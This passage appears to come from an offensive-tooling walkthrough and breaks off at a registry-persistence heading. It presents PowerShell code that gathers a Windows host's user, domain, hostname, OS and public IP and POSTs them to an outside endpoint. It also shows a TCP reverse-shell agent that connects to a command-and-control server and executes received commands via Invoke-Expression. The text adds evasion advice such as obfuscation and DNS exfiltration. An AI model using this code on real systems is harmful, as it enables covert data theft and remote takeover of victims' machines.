 ```powershell
$ip = (Invoke-RestMethod -Uri "http://ipinfo.io/json").ip
$user = $env:USERNAME
$domain = $env:USERDOMAIN
$hostname = $env:COMPUTERNAME
$os = (Get-WmiObject Win32_OperatingSystem).Caption
```

2.  **Then converts the data to JSON and POSTs it:**

```powershell
$body = @{
	user = $user
	domain = $domain
	hostname = $hostname
	ip = $ip
	os = $os
} | ConvertTo-Json

Invoke-WebRequest -Uri "https://endpoint.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

-   `Invoke-RestMethod` is less suspicious than raw sockets or curl.exe
-   POSTs to a benign-looking endpoint, for this demonstration I am using Mockbin

An attacker, as an improvement, could obfuscate values or switch to DNS-based exfil if needed.

### `agent.ps1` — Live Reverse Shell (TCP C2)

This is the persistent command-and-control session:

1.  **Connects via TCP:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient($C2, $Port)
```

2.  **Identifies with:**

```powershell
$writer.WriteLine((Get-SystemInfo))
```

3.  **Listens for commands:**

```powershell
$cmd = $reader.ReadLine()
Invoke-Expression $cmd
$writer.WriteLine($result)
```

Clean, readable, and almost **agentless** in design — no loop beacons or heavy libraries. Just command-response.

**Bonus:**  `Start-Session` retries every 15s on error. Could easily evolve into a resilient C2 loop.

### `persist.ps1` — Registry Persistence
